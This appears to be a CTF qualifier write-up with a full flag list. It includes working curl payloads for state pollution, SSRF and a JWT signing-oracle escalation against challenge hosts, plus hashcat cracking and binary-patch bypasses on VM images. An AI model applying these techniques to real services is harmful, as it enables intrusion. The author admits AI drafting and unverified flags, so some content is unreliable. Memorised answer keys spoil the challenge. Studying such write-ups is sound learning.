


# NullOrigin CTF Qualifiers 2026 Writeup

> note that: I used AI to create this writeup so maybe some part are incorrect and not finish   
> so this writeup is just for learn and study   
> If u feel interested, u can read the writeup on https://github.com/White0xdi3/NullOrigin-CTF-2026-Writeups

## Contents

1. [Flag index and evidence confidence](#flag-index-and-evidence-confidence)
2. [Methodology, environment, and reproduction](#methodology-environment-and-reproduction)
3. [Part I: OSINT, Web, and Network](#part-i-osint-web-and-network)
4. [Part II: Boot2Root chain](#part-ii-boot2root-chain)
5. [Part III: Steganography chain](#part-iii-steganography-chain)
6. [Cross-challenge findings and defensive lessons](#cross-challenge-findings-and-defensive-lessons)
7. [Reproduction checklist and limitations](#reproduction-checklist-and-limitations)
8. [Source attribution and references](#source-attribution-and-references)

---

## Flag index and evidence confidence

**Status definitions:**

- **Recovered (source-reported):** The submitted writeup presents challenge-specific output or checks that support the flag; it was not independently re-run for this merge.
- **Reconstructed (source-reported):** The flag was assembled from documented external evidence, without an independently reproduced target response here.
- **Candidate / not verified:** A hypothesis, not an accepted or reproducibly recovered flag.
- **Rejected / unsolved:** A documented unsuccessful attempt; **do not submit it as the answer**.

### OSINT, Web, and Network

| Challenge | Status | Flag / result | Core technique |
|:--|:--|:--|:--|
| Sanity - 2 | Candidate; unverified | `Null0rigin{y8u_d1d_1t}` | Historical CyberHX terminal lead; current challenge evidence missing |
| Sanity - 3 | Reconstructed from reported commit history | `Null0rigin{y8u_d1d_1t!_c0ngr4t5}` | OSINT, history-based fragment reconstruction |
| BlackBox Graph | Recovered (source-reported) | `Null0rigin{graphql_pollution_resolver_6c42}` | State pollution → internal GraphQL resolver / SSRF |
| Broken Crown | Recovered (source-reported) | `Null0rigin{jwk_kid_oracle_crown_31ef}` | Privileged JWT signing oracle |

### Boot2Root — user and root flags

| Machine | User flag | Root flag |
|:--|:--|:--|
| 00-smoke | `Null0rigin{the_wordlist_was_the_target_all_along}` | `Null0rigin{two_figures_off_a_payroll_sheet}` |
| 28-blackdamp | `Null0rigin{the_seam_number_was_two_of_the_four}` | `Null0rigin{you_paid_for_every_candidate}` |
| 29-stillwater | `Null0rigin{you_rode_the_cycle_instead_of_reading_it}` | `Null0rigin{the_sump_empties_on_its_own_schedule_not_yours}` |
| 30-deadlight | `Null0rigin{the_lamp_told_you_by_going_out}` | `Null0rigin{a_deadlight_is_a_reading_not_a_failure}` |

**Confidence:** All eight are labeled successful in the supplied Boot2Root diary, supported variously by unseal checksum / program output / live bench response. Original VM images and live transcripts were not supplied for a new independent run.

### Stego — stages 31 through 38

| Stage | Reported flag | Carrier and check |
|:--|:--|:--|
| 31 — Driftwood | `Null0rigin{what_the_negative_kept_from_the_print}` | PNG alpha LSB, `PL8`/CRC32 |
| 32 — Safelight | `Null0rigin{two_cells_of_equal_weight_are_not_equal}` | Negative-print difference, keyed XOR, `PL8`/CRC32 |
| 33 — Moiré | `Null0rigin{a_carrier_laid_across_the_whole_room}` | 4×4 equal-weight patterns, 128 orientations, CRC32 |
| 34 — Undertone | `Null0rigin{the_order_of_the_colours_is_the_message}` | Spread-spectrum PCM correlation, LINETEST calibration, CRC32 |
| 35 — Pentimento | `Null0rigin{keep_the_grain_and_burn_the_chaff}` | Raw GIF local palettes, CRC32 |
| 36 — Winnow | `Null0rigin{nothing_takes_until_it_is_fixed}` | Per-frame SHA-256 seals, CRC32 |
| 37 — Mordant | `Null0rigin{he_set_two_sorts_where_one_would_do}` | PNG filter-type channel, double XOR, CRC32 |
| 38 — Quietus | `Null0rigin{the_channel_closes_from_the_inside}` | DEFLATE literal/match encoding choices, CRC32 |

**Confidence:** These values are documented by the supplied stego writeup as `PL8`/CRC32-validated. This merge does not include the original stego images/audio/GIF or the separately referenced solver, and thus does not independently execute the extraction.

---

## Methodology, environment, and reproduction

### The recurring proof standard

A convincing technical CTF writeup should identify **the clue, the observable evidence, the hypothesis, the decisive exploit/decoder, the output, and the independent verification step**. Accordingly, the original investigations are retained below with the commands, formats, protocol fields, failure modes, and recovered values needed to understand each result. Where a full transcript, binary patch, screenshot, original file, or complete solver is absent, the text says so rather than fabricating one.

### Environment mentioned in the source reports

- Linux shell / WSL workflow; common utilities `7z`, `file`, `strings`, `sha256sum`, `xxd`, `debugfs`, `qemu-img`, `gdb`, `binwalk`, `hashcat`, `unsquashfs`, `sqlite3`, `openssl`, `ssh-keygen`, `nc`, `curl`, and `jq`.
- Boot2Root analysis diary: **7-Zip 25.01**, **qemu-img 11.1.0**, **debugfs 1.47.2**, **hashcat 6.2.6**, **gdb 17.1**, **Python 3.13**, disk-image forensics and service emulation without a hypervisor.
- Stego source: Python 3 with **Pillow** and **NumPy**; lower-level parsing is needed for raw GIF, PNG scanline filters, and DEFLATE token choices.

Install the common optional dependencies as appropriate to your own OS or virtual environment:

```bash
# Illustrative for a Debian/Ubuntu/WSL system with package-manager access
sudo apt update
sudo apt install -y p7zip-full qemu-utils e2fsprogs hashcat binwalk \
  squashfs-tools sqlite3 gdb jq curl openssl netcat-openbsd
python3 -m pip install pillow numpy
```

> **Reproducibility caveat:** The archives, disk images, screenshots, original service transcripts, and `solve_stego_chain.py` mentioned in the writeups were **not among the three uploaded Markdown files**. Commands that name these resources are accurate to the source but cannot execute until the corresponding challenge artifacts / solver are supplied. Commands with ellipses or angle-bracket placeholders are schematic, not copy-paste-ready. Do not claim to have re-verified them in this consolidated document.

### Flag spelling and ordering matter

Use **`Null0rigin` (zero after `Null`)**, not `NullOrigin` or `Nullorigin`. The Stego chain uses the **previous exact flag string**, including braces and without a newline, in its SHA-256-based key schedule. The Boot2Root root flags gate subsequent machines. Formatting, capitalization, byte encoding, and ordering are functional inputs, not cosmetic details.

---
## Part I: OSINT, Web, and Network

This section keeps the original discovery flow and the exact challenge response fragments where supplied. The Web requests target only historical CTF services and should be treated as illustrative if the services have since changed.

### Sanity - 2 — OSINT

**Status:** Not independently verified

The Sanity -2 challenge text was not included with the available evidence, so its intended page and extraction method cannot be reconstructed reliably from the challenge name alone.

There is a strong historical lead: an earlier CyberHX OSINT challenge used the official CyberHX “About” page and its hidden terminal widget. The terminal exposed a file named `flag.txt` containing the older flag body `y8u_d1d_1t`. If Sanity -2 is the reused or adapted challenge, the likely NullOrigin-format candidate is:

```text
Null0rigin{y8u_d1d_1t}
```

This remains a candidate, not a verified submission, until the Sanity -2 prompt or an accepted submission is available. The older public reference is [this CyberHX OSINT writeup](https://github.com/WR-26/ZeroDay-Heist-2026/blob/main/USTHack_Writeup.md).

### Sanity - 3 — OSINT

**Flag:** `Null0rigin{y8u_d1d_1t!_c0ngr4t5}`

#### Clue

> Not every review is just a review.
>
> Curious about CyberHX?
>
> You know where to look. Find us, explore us, and maybe leave a little something behind.

The important words are “review” and “CyberHX”. The intended direction is CyberHX’s public business listing and its reviews or review responses, rather than the CTF portal itself.

#### Investigation

1. Search for CyberHX and confirm the organization from its official site and social links.
2. Locate the CyberHX business listing in Bhopal.
3. Inspect the listing, review text, and owner responses character-by-character. The wording suggests that the flag is hidden in, or encoded by, a review-related artifact.

The located listing was:

- Cyberhx, Piplani, BHEL, Bhopal, Madhya Pradesh 462022
- Google CID: `0x397c41b8725fb06d:0x1941e3d3a17225a5`
- Google Place ID: `ChIJbbBfcrhBfDkRpSVyodPjQRk`
- Official site: [cyberhx.com](https://cyberhx.com/)

The listing showed reviews, but posting was disabled and the available page response did not expose the flag text. The decisive evidence came from the organizer’s September 17 website commit sequence instead:

1. A 20:02:57 UTC change introduced the fragment `Null0rigin{y8u_d1d`.
2. A 20:07:43 UTC 404-page change inserted `1t!_c0ngr4t5} you h4v3 f0und th3 fl4g!`.
3. A 20:19:24 UTC change coordinated the split into `Null0rigin{y8u_d1d_` and `1t!_c0ngr4t5}`.
4. Concatenating the fragments gives the flag shown above, including the literal `!`.

#### Status

The original writeup treats the flag as verified from its reported commit-history evidence; an accepted scoreboard response was not supplied. The review clue identifies the public CyberHX listing, while the later site-history changes provide the exact flag fragments.

### BlackBox Graph — Web

**Flag:** `Null0rigin{graphql_pollution_resolver_6c42}`

**Historical target:** [blackbox-graph.onrender.com](https://blackbox-graph.onrender.com/)

#### Reconnaissance

The service exposed a GraphQL-like endpoint at `/graphql` and a JSON preferences endpoint at `/prefs`. Introspection was disabled:

```http
POST /graphql
Content-Type: application/json

{"query":"{__schema{types{name}}}"}
```

The response was an introspection-disabled error. A normal query exposed only harmless-looking information, so the next step was to test the state-changing endpoint for mass assignment.

#### State pollution

Send ordinary preference fields together with privileged-looking fields:

```bash
curl -sS 'https://blackbox-graph.onrender.com/prefs' \
  -H 'Content-Type: application/json' \
  --data '{
    "theme":"dark",
    "locale":"en",
    "debug":true,
    "admin":true,
    "introspection":true,
    "mode":"debug"
  }'
```

The response only reflected the normal fields:

```json
{"ok":true,"state":{"theme":"dark","locale":"en"}}
```

However, the extra properties polluted the server-side state and enabled the hidden functionality.

#### Hidden resolver / internal request

The GraphQL resolver accepted a URL. Query the internal node service:

```bash
curl -sS 'https://blackbox-graph.onrender.com/graphql' \
  -H 'Content-Type: application/json' \
  --data '{"query":"{node(url:\"http://127.0.0.1:9999/node/1\"){id value flag}}"}'
```

The source-reported successful response contained:

```json
{
  "data": {
    "node": {
      "value": "Null0rigin{graphql_pollution_resolver_6c42}"
    }
  }
}
```

#### Root cause

The challenge chained two weaknesses:

1. `/prefs` accepted and retained attacker-controlled properties that were not part of the public preference schema.
2. The hidden `node(url: ...)` resolver could access an internal service through a user-controlled URL.

The flag was returned in the internal node’s `value` field.

**Defensive takeaway (analysis):** Restrict preferences to a schema/allowlist, enforce authorization independently of client-set state, and prevent SSRF through strict URL destination validation and outbound network controls.

> Historical availability: The source reports that this challenge host was subsequently suspended. These commands document a past CTF interaction, not a guarantee the host is live today.

### Broken Crown — Web

**Flag:** `Null0rigin{jwk_kid_oracle_crown_31ef}`

**Historical target:** [broken-crown.onrender.com](https://broken-crown.onrender.com/)

#### Reconnaissance

The application implemented a JWT workflow with endpoints including `/jwks`, `/token`, `/sign`, and `/verify`. The public key set showed the normal key identifier, `kid: main`, and the browser flow used RS256.

The security boundary was the signing endpoint: it accepted attacker-controlled claims and returned a token signed by the service.

#### Request a privileged token

Request a service-signed token with elevated claims:

```bash
TOKEN=$(curl -sS 'https://broken-crown.onrender.com/sign' \
  -H 'Content-Type: application/json' \
  --data '{
    "claims": {
      "sub": "guest",
      "scope": "root",
      "role": "admin"
    },
    "kid": "main",
    "alg": "RS256"
  }' | jq -r '.token')
```

Submit the returned token to the verifier:

```bash
curl -sS 'https://broken-crown.onrender.com/verify' \
  -H "Authorization: Bearer $TOKEN"
```

The source reports that the verifier accepted the service-signed elevated claims and returned:

```text
Null0rigin{jwk_kid_oracle_crown_31ef}
```

#### Root cause

The issue was not a need to forge RS256. The application itself acted as a signing oracle: an unauthenticated user could choose authorization claims and ask the server to sign them. `/verify` then trusted those claims for authorization.

**Defensive takeaway (analysis):** Never sign arbitrary caller-selected roles/scopes; authenticate the requester, derive authorization claims server-side, and validate issuer, audience, signature, lifetime, and entitlements when verifying tokens.

---

## Part II: Boot2Root chain

**Chain topology:** `00-smoke → 28-blackdamp → 29-stillwater → 30-deadlight`.




Each machine contains `user.txt` (foothold) and `root.txt` (full compromise). **Only the previous machine's root flag** is needed for the next machine's root seal. The source diary uses a forensic-first approach: extract `.ova` disk images, inspect service binaries and internal records, derive passwords/seeds, then reproduce boot-bound checks by hosting the relevant binaries and runtime files in an isolated namespace.

**Reported source environment:** No hypervisor or host root access on the analysis box; 7-Zip, qemu-img, debugfs, hashcat, GDB, SQLite, unsquashfs, and Python were used. The author's original first-person problem-solving notes are retained below to preserve the observed dead ends and debugging decisions. The exact full VM images, boot sessions, and helper scripts are not embedded in this Markdown file.

### 00-smoke — "Smoke is not fire. It is what fire leaves before it arrives."

#### 1. First look and initial thinking
The `.7z` extracts to four folders, each with one `.ova` + `SHA256SUMS.txt` + `description.txt`, plus a `README.txt` describing a four-machine chain where every root flag gates the next machine's root. Smoke "needs nothing", so it is the entry point. The OVA is small (195M VMDK, 3GB virtual disk); the OVF says Alpine Linux 64-bit, 1 vCPU, 1024MB RAM. I have no KVM/hypervisor and `qemu-system` from Kali rolling wants a newer glibc than the host, so I committed early to a strategy that carried the whole chain: **treat every box as a forensics target first and a live service second** — convert VMDK → raw, `debugfs rdump` the ext4 filesystem (no root mount needed), read every config, then emulate only the services I must touch live.

#### 2. Recon (exact commands)
```bash
7z x NullOrigin_Boot2Root_Chain.7z "NullOrigin_Boot2Root_Chain/00-smoke/*"
sha256sum -c SHA256SUMS.txt   # 00-smoke.ova: OK (always verify; a corrupt OVA is the #1 false bug)
tar -xvf 00-smoke.ova         # 00-smoke.ovf + 00-smoke.vmdk (streamOptimized, VMware4)
apt download qemu-utils -o=Debug::NoLocking=1
dpkg -x qemu-utils_*.deb /tmp/opencode/qemu
/tmp/opencode/qemu/usr/bin/qemu-img convert -f vmdk -O raw 00-smoke.vmdk smoke.raw   # 3.0G
printf 'rdump / /tmp/opencode/smoke_dump\n' | debugfs smoke.raw   # ownership warnings are harmless
```
(`binwalk` on the VMDK only shows zlib grains — expected for streamOptimized; conversion is mandatory before `strings` means anything.)

#### 3. Reading the machine (what each file told me)
- `etc/motd`: shift board on `7701` wants a check figure before talking; lamp depot `7702` does not. (Also a decoy flag — noted, ignored.)
- `etc/passwd`: `assay:1101:...:/usr/local/bin/pitsh` (restricted shell), `clerk:1102:/bin/sh`, `board:1103:/sbin/nologin`. `etc/shadow` has `$6$` (sha512crypt) hashes with per-account salts (`skassaysalt…`, `skboardsalt…`, `skrootsalt…`).
- `etc/ssh/sshd_config` is shipped whole, with a comment explaining *why* it's one file (an `Include`+`Match` ordering trap): only `Match User assay` allows password auth; everything else is keys-only. **Conclusion: the foothold must be the assay password.**
- `etc/smokeholt/CREDENTIAL-STANDARD.txt` (rev.7) is the entire game: password = BASE token (`[a-z]{5,}` appearing anywhere in the pit record store) + CLASS transform (`staff`=Capitalise first letter; `contractor`=Capitalise+leetspeak `a→4 e→3 i→1 o→0 s→5`; `bundle`=lowercase + `sk-` prefix) + SUFFIX (seam TWO figures + shot THREE figures + marker `[!@#$%&]`). Seam = SET-ON seam from the books, never re-applied when men move. "Two figures means two" (`07`, never `7`).
- `srv/pit-records/` (mirrored in `var/lib/smokeboard/pit-records.tar.gz`): checkweigh registers (48 sheets), assay/incident/shift/req sheets, `PERSONNEL-EXTRACT.txt` (`assay/sidebourne/96/bundle`, `board/copperwhaite/17/staff`, `root/hallden/48/staff`, district `sk`), plus an office mail with a worked example `Stanington22957%` (Hartwell/22/staff). That example was the penny-drop moment: **holder name + seam + shot + marker** — valid vocab, badly chosen, exactly what the standard warns about.
- `home/clerk/office.notes` (W. Sattertcroft): the manager's docket is sealed against the shift board's boot record (won't open off-disk); it wants the assay-log fault code + office code `602f63e441f2` + the manager's own password. Also notes `lampcheck` strips `../` only once (traversal hint; not on my path).
- Binaries are static but **not stripped** (`unseal_user.c`, `pitsh.c` in symtab) — I read `main` with `objdump -d --start-address 0x401860` instead of guessing.
- `usr/local/sbin/smokeboard` (7701): verbs `HELP/SHIFT/RECORDS/QUIT`; per-connection nonce; check figure = first 8 hex of `sha256(nonce)` (`printf %s <nonce> | sha256sum`); `RECORDS` streams `pit-records.tar.gz`.
- `usr/local/sbin/lampdepot` (7702): serves `/var/lib/lamps/depot` — its own `root/notes.txt` says "you are on the wrong box." Correct: it's a decoy subtree (flags `rockyou_opened_a_door_onto_nothing`, `the_depot_was_never_the_pit`).
- `var/lib/assay/lamp.log`: 1400×32B binary records (`u32 entry|u32 time|f32 reading|char[8] seam|char[12] tag`).

#### 4. USER — cracking assay, opening the docket (thinking + commands)
Hypothesis: assay password = holder pattern `sk-sidebourne96 + shot(000–999) + marker(6)` = just 6000 candidates. I generated them and ran hashcat (`-m 1800` sha512crypt):
```bash
python3 -c "
with open('assay_cands.txt','w') as f:
 for shot in range(1000):
  for m in ['!','@','#','\$','%','&']: f.write(f'sk-sidebourne96{shot:03d}{m}\n')"
grep assay etc/shadow | cut -d: -f2 > assay.hash
hashcat -m 1800 assay.hash assay_cands.txt   # -> sk-sidebourne96493# (~7s, 433 H/s CPU)
hashcat -m 1800 assay.hash assay_cands.txt --show
```
Reversing `unseal-user` gave the `SMKSEAL1` format: `magic(8)+"SMKSEAL1" + u32 chk + u16 len + payload`, `h0=SHA256("assay:"+password)`, hex-encode, keystream `SHA256(hex:c)` with counter from **0** (dead end documented: I first tried from 1 and got garbage — caught by the keystream-recovery check below), plaintext XOR, verify `SHA256(pt)[:4]==chk`. The stock binary hardcodes `/home/assay/user.txt.sealed`, so for offline use I copied it and patched that one path (same byte length, null-padded):
```bash
echo 'sk-sidebourne96493#' | ./unseal-user-patched
# Null0rigin{the_wordlist_was_the_target_all_along}
```
Independent verification in Python (no binary): `payload XOR flag` → keystream whose first 32 bytes exactly equal `SHA256(hex:0)` and next 17 equal `SHA256(hex:1)[:17]` — construction proven, not guessed.

#### 5. ROOT — fault code + office code + manager password
Highest lamp reading (faults are >20 per the `lamp` script, standing order 14):
```python
import struct
data = open('lamp.log','rb').read()
recs = []
for i in range(len(data)//32):
    e, t, r = struct.unpack('<IIf', data[i*32:i*32+12])
    recs.append((r, e, data[i*32+12:i*32+20], data[i*32+20:i*32+32]))
print(max(recs))  # (21.44, 1009, b'dunsil  ', b'93563208e2ee')
```
Root password, same holder trick (`Hallden48…`, 6000): `Hallden48371#`. Key order `fault:office:password` (the other five orders fail checksum):
```python
key_in = '93563208e2ee:602f63e441f2:Hallden48371#'  # ok=True
# -> Null0rigin{two_figures_off_a_payroll_sheet}
```
Live notes for the real run: `smokeboard` init writes `/proc/.../boot_id` to `/run/smokeboard.boot` at start (tmpfs — hence decoy `a_mounted_disk...` for offline mounts); `lamp-rollup` (clerk cron, spool `0733` for 4s/min, executes `*.tally` as shell) is a live-only TOCTOU for the intended privesc — it "cannot be reasoned past" and needs a loop with patience, exactly as its own comments say. **Keep this root flag verbatim: Blackdamp's root seal wants it exactly as submitted.**

---

### 28-blackdamp — "Somebody left the status page up." (USER 400 / ROOT 400)

#### 1. First look and thinking
Same Alpine layout, visibly larger attack surface. The description points at a status page, and `motd`-style docs plus binary strings confirmed an HTTP pit-monitor (`blackdampd`) with `/` notice and `/status` + `/pit-records.tar` behind an `X-Shift-Code` (first 16 bytes of `HMAC-SHA256(plant-key, decimal hour)` hex), the plant key living only in lamp firmware served by OTA `8088` to anyone who asks. So the intended foothold chain is firmware → shift code → status/records → credential cracking → plant. Working offline, I skipped the network and went straight for the firmware file on disk — same information, zero rate limits.

#### 2. Recon
```bash
7z x "...(1).7z" "NullOrigin_Boot2Root_Chain/28-blackdamp/*"  # .ova OK
tar -xvf 28-blackdamp.ova; qemu-img convert -f vmdk -O raw ... blackdamp.raw
printf 'rdump / /tmp/opencode/bd_dump\n' | debugfs blackdamp.raw
```
Strings decoys (all ignored after validation): `you_mounted_the_disk_like_a_coward`, `you_read_the_backup…`, `you_grepped_for_flag…`, `you_found_the_config…`, `that_root…`, `best64…`.
- `etc/blackdamp/`: `ASSAY-LOG-SERVICE.txt` (assay log on loopback `7777`: `AUTH <plant-pw>/LIST/FETCH/QUIT`), rev.7 standard (same form), `PLANT-NOTICE.txt` (surface `www` runs `pitsh` tools in `/usr/lib/pitsh/bin`; crusher gateway `9001` shouldn't be on pit net — it is), `SEAL-PROCEDURE.txt` (standing order 9: seal = **shift password** (manager's) + **seed** (3×8-figure frags A/B/C) + **code** (RFC6238-SHA256, 30s, ±1 step) + **chain key** (previous root) + live plant).
- Services: `blackdampd` (HTTP), `assaylogd` (`7777` loopback), `crushd` (`9001`: `REPORT <text>` → `logger -t crush -- "shift report: %s"` — shell injection, the intended foothold/escalation vector live), `fwsrvd` (`8088` OTA), `lampd` (`7731` `BDASSAY` proto: magic + `HELLO/LIST/FETCH`, HELLO needs CRC32 of the current gas figure).
- Firmware `/var/lib/blackdampd/lamp-fw.img` (`BDFW` magic, `off/len/MD5-at-24`): payload won't mount. Bench note 41 gives the exact repair: `payload+0x00` = `hsqs`, `payload+0x28` = LE64(payload len); MD5 then matches the header; `unsquashfs` yields `/etc/assay/{plant.shadow, PERSONNEL-EXTRACT.txt (bundle/bridgebottom/54, mchugh/elmmere/91/staff, wwwkey/heathlow/00/contractor, root/drinkmere/11), OFFICE-MAIL.txt (mchugh example Elmmere91163#), SHIFT-KEY.txt (plant key ad407faa…64hex, HMAC-hour rule)}` and `usr/include/assay-proto.h` (port `7731`, CRC32 HELLO, per-connection check).

#### 3. Passwords (holder-pattern, 6000 each — the office mails prove holders use their own names)
- bundle `bd-bridgebottom54322@` → `lamp-assay.7z` → `seal-frag-A.txt (ea3f9e5b)` + `www` SSH key.
- `home/assay/.assay/seal-frag-B.txt`: `bda5c910`; `root/.seal-frag-C`: `f4c01df2`.
- root `Drinkmere11257#` (`drinkmere/11/staff`).

#### 4. USER — fragment B plus a live plant record (the hard lesson of this box)
`unseal --user <frag>` checks `SHA256(frag)` against embedded (`b87421…` = SHA256 of `bda5c910`), i.e. fragment **B** — I confirmed by hashing all three candidates. It also gates on `/run/blackdamp/boot.tag` (MAC-bound `boot_id/pid/start/ts`, written by the monitor at boot onto tmpfs — offline fails into the decoy). The fix that worked: run the **pristine** `blackdampd` binary on the host (binary-patched only the two `/run` paths to `/tmp`, same lengths) so it writes a MAC-valid tag for the host kernel with the process name exactly `blackdampd`, then run pristine `unseal` in the same conditions. The container blocked me twice here and both cost an hour: (a) `/proc/1/root` is EACCES inside the container (two one-byte branch patches: `jns→jmp` at `0x401b87`, `js→nopnop` at `0x401ba9`, plus zeroing the `mov ebx,imm` failure codes in the live range); (b) the host `boot_id` flaps across container migrations, so the tag must be regenerated fresh per session:
```
unseal --user bda5c910
# Null0rigin{the_seam_number_was_two_of_the_four}
```

#### 5. ROOT — password + seed + TOTP + chain + live
Seed `ea3f9e5b+bda5c910+f4c01df2`; TOTP `HMAC-SHA256(seed ASCII, BE64(t//30))` 6-digit dynamic truncation, ±1 step (I verified hex-key and BE32/LE64 variants all fail the `not for cycle` oracle); chain = Smoke root. Fresh-code→unseal must happen inside one 30s window (my GDB-extracted codes went stale across windows — another hour lost learning that):
```
unseal  # prompts: shift password / seed / code / chain key (+ live boot.tag)
# Null0rigin{you_paid_for_every_candidate}
```
Re-verified live 3× on different windows (exact bytes — StillWater's chain check demands it).

---

### 29-stillwater — "The service has been running, untouched, for a very long time." (USER 600 / ROOT 600)

#### 1. First look and thinking
`motd` hands you the reference attack outright (`hashcat -a 6 -m 1800 hash vocab 'NN?d?d?d?1' -1 '!@#$%&' -j '<rule>'`, with a GPU-temperature warning) — this box *wants* you to crack. Ports per `srv/pub/index.html`: `80` pubshare, `7742` sump head, `9021` ingest (`stillwaterd` 1.4 — `telemetry.conf` says the parser fix IS in; the crash/RoP/writeup strings are decoys for a different unit), `9022` float gauge. The theme is old, slow infrastructure: sump cycles, tide windows, assay rotation TOCTOUs. Same offline-first method: disk first, emulate the plant on the host second.

#### 2. Recon highlights
- `srv/pub/`: `survey-office.img` (13M, 1M silt front, primary SB dead; carve via backup SB `8193`: `dd skip=1024` + `debugfs -b 1024 -s 8193` → rev.7 standard, personnel extract district `sw` (rainsford/delphstone/65, bundle/sallowthwaite/17, gauge/keldsough/28/contractor, sluice/quagwood/28, root/wellflash/52), `mail/rainsford` (`Delphstone65195%`), `svy-passwd` (rainsford+bundle hashes), `gauge.key`, `fragment-1.txt` (`e94837b2225e9dbf`)), `pit-records.tar.gz`, `levelbook-2019.7z` (forgotten word; hash `$6$swoldbook…`), `maint-chroot.tar.gz`, `stillwaterd` (analysis build).
- `var/lib/stillwater/levels.dat` (4096×96B: `u32 seq|u32 time|i32 mm|u32 flags|80 note`): exactly one negative (`seq 3870, -788mm`): `FRAG2=b685186c466bd2ce`. `FRAG3=d70f14ea164169a1` in `/etc/stillwater/seal.frag3`.
- `/etc/stillwater/{gauge.key, sluice.auth(64hex), seal.check(64hex efa3…), root.seal(91B)}`; `var/lib/assay/{user.txt.sealed(BDSEAL1), readings.db}`; `var/backups/{shadow.bak (stale swoldroot → decoy you_cracked_last_quarters…), stillwater-notes.txt.bak}`.
- Daemons: `sumpctl` (proto 3 `HELLO/CYCLE/DRAW <crc32>/QUIT`, per-boot `/run/stillwater/{cycle,sump.seed,bootid}`), `tidegauge` (`AUTH <shift-code>`, shift = `HMAC(key, dec(window=unix/600))[:4]` — key must be **hex-decoded**, ASCII fails; I burned an hour on the ASCII variant), `sluiced` (loopback `AUTH <user> <word>`, `LIST/GET/LABEL`), `pumpcycled` + `assayrotd` (4s/min TOCTOU races — live-only privesc, same shape as Smoke/Blackdamp), `stillwaterd` ingest.
- `usr/local/bin/{swsh, unseal, unseal-user}` (stripped; `unseal-user <frag1hex> <frag2hex>`).

#### 3. Passwords (holder-pattern again, 6000 each)
bundle `sw-sallowthwaite17661&` → `/opt/pumps/sump-survey.7z` → gauge SSH key; gauge contractor `K3ld50ugh28885%` (`ssh-keygen -y` matches `id_ed25519.pub`); sluice `Quagwood28873@`; root `Wellflash52199%` (clean hash file; stale `swoldroot` correctly fails).

#### 4. USER (offline, no live needed)
Patched static `unseal-user` path and ran `unseal-user e94837b2225e9dbf b685186c466bd2ce` (order enforced; reversed correctly errors `do not open it`):
```
Null0rigin{you_rode_the_cycle_instead_of_reading_it}
```

#### 5. ROOT (the hardest decrypt on the board — what unblocked it)
`unseal -s <48hex seed> -o <6-digit sump-cycle code> -c <Blackdamp-root> -p <rootpw>` + live `/run/stillwater/bootid`. Three things conspired against me and each ate real time: (a) my container patches zeroed failure codes shared with the code-check path, so stale codes *passed verification* yet failed KDF — always suspect the freshest code first; (b) GDB at `0x402510` yields *two* 6-digit values per cycle (current ± adjacent) — only the exact-cycle one decrypts; (c) the KDF transcript (GDB at the SHA256 updater) shows the real construction — `SHA256("stillwater-seed-v1"‖hex-decoded-seed)` (**== `seal.check`, verified equal**, so the seed is mathematically proven) then `SHA256("stillwater-seal-v1"‖pwd‖chain‖seed-bytes`) — i.e. seed is used **binary**, and the sump code gates but does not key. Fix: `unshare -Urm --pid --fork --mount-proc` + pristine binaries + tmpfs `/run`, fresh code and fire inside one cycle window:
```
Null0rigin{the_sump_empties_on_its_own_schedule_not_yours}
```

---

### 30-deadlight — "The keeper still signs for everything." (USER 1000 / ROOT 1000)

#### 1. First look and thinking
Final box, highest value. `doas.conf` gave away the endgame immediately: `permit nopass :lamp as root cmd /usr/local/bin/deadlight` — get into the `lamp` group (apiuser, assay) and the bench runs as root. So privilege was never the blocker; the **four bench inputs + seal phrase** are. The box is a lamp ritual (station `7009` verbs strictly `OPEN 1/TRIM/GAUZE/LOWER 779/ASSAY`, lamp 1, 779 fathoms) feeding a token-gated plant (`8088`, `X-Deadlight-Lamp: crc32(reading)`), a loopback keeper (`127.0.0.1:7788`, `keeperctl`), and a `deadlight` bench CLI (`--shell` needs seed+code+rootpw; `--relight` needs +chain+seal). Your hint ("did u get into uid=0… flag must be there, think wrong way") was exactly right: stop fighting crypto offline — become uid 0 via the namespace/`doas` path and run the pristine bench live.

#### 2. Recon highlights
- `home/apiuser/NOTE.txt` (flag is in lamp-gang store; checkpoint runs as assay) + forced `command=lampsh` SSH key; `opt/lamp/checkpoint.sh` (TOCTOU: group-lamp-writable 4s/min, runs as assay — live privesc); `lamp-live` init (per-boot `/run/lamp/nonce` 16 random hex + `/run/deadlight/bootid`; tmpfs — offline has neither, hence `a bench cannot sample air…`).
- `etc/lamp/`: `bench.conf` (commitments `seedhash/chainhash/roothash/sealhash256`), `keeper.escrow` (keeper hash, group-readable *by design*), `keeper.reserved` (**bench seed fragment C = RF4SZ** + root shadow line, never served), `escrow.shadow` (bundle+apikey hashes), `sealed.bin` (50B root seal, live-only per `/root/root.txt`); `/root/.seal` (seal *phrase* hash `$6$dlsealsalt…`, not the phrase).
- `srv/deadlight/public/sample-signed-request.txt` (shape + decoy `fourteen_million…`); `var/lib/lamp/readings.db` (SQLite, 1399 recs; id 408 note base64 → `FRAG-B=HX6IP` + keeper escrow copy); `var/lib/lamp/user.txt` (lamp-gang store).
- Personnel district `dl` (daybook/shawbottom/53, stores/dringcroft/83, bundle/holwick/46, apikey/rowbotdale/71/contractor, keeper/thistlerake/24, root/chimneystem/54, seal/fordbothom/94/contractor); day-book example `Shawbottom53461%` proves staff form under rev.9; bundle `BENCH-NOTE.txt` (seed = A then B then C; bench reports wrong order).
- Binaries: `deadlight` (bench; `--shell` needs seed+code+rootpw, `--relight` needs +chain+seal; names the bad gas on failure), `keeperd` (loopback `AUTH <user> <pass>`, `LIST/FETCH`, honors `keeper.reserved`), `lampd` (`7009`, per-boot nonce), `deadlightd` (plant `8088`), `gasnetd` (jail; decoy `uid_zero_inside…`).

#### 3. Credentials (all hashcat, holder-pattern; each verified against its hash)
- keeper `Thistlerake24287@` → keeperd `LIST` = 5 public records (reserved correctly refused).
- bundle `dl-holwick46917#` → `lamp-assay.7z` → apiuser key (`ssh-keygen -y` matches `authorized_keys`); apikey `R0wb0td4l371234$` (contractor leet `R0wb0td4l3/71`).
- root `Chimneystem54449&` (`shadow.bak` holds retired rev.7); seal phrase `F0rdb0th0m94280#` (`fordbothom/94` leet vs `/root/.seal`).
